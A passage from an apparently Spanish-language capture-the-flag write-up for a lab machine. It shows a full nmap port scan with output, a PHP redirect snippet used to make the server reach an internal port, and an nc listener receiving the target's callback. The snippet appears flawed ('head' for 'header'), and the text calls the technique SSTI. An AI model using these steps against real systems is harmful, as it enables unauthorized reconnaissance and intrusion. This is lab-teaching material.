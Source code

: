 Esto puede parecer que no lleva a ningún sitio pero en caso de que occura lo mismo con un fichero en PHP se puede dar un SSTI, con el que se pueden enumerar puertos internos abiertos así como abusar de sus servicios.

Nmap puede llegar a reportar puertos a los que no tienes acceso, pero que es probable que estén abiertos.

```null
nmap -p- --min-rate 5000 -n -Pn 10.10.11.176 -vvv
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-09 17:49 GMT
Initiating Connect Scan at 17:49
Scanning 10.10.11.176 [65535 ports]
Discovered open port 80/tcp on 10.10.11.176
Discovered open port 22/tcp on 10.10.11.176
Completed Connect Scan at 17:49, 12.27s elapsed (65535 total ports)
Nmap scan report for 10.10.11.176
Host is up, received user-set (0.060s latency).
Scanned at 2023-01-09 17:49:42 GMT for 12s
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE    SERVICE       REASON
22/tcp    open     ssh           syn-ack
80/tcp    open     http          syn-ack
3000/tcp  filtered ppp           no-response
4114/tcp  filtered jomamqmonitor no-response
54256/tcp filtered unknown       no-response

```

En PHP existe una manera de forzar un redirect en caso de ser interpretado:

```null
<?php
   head("Location: http://127.0.0.1:3000");
?>
```

Efectivamente, el servidor devuelve el siguiente contenido:

```null
nc -nlvp 80
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.11.176.
Ncat: Connection from 10.10.11.176:36808.
POST / HTTP/1.1
Host: 10.10.16.34
Accept: */*
Content-type: application/json
Content-Length: 7741
Expect: 100-continue

```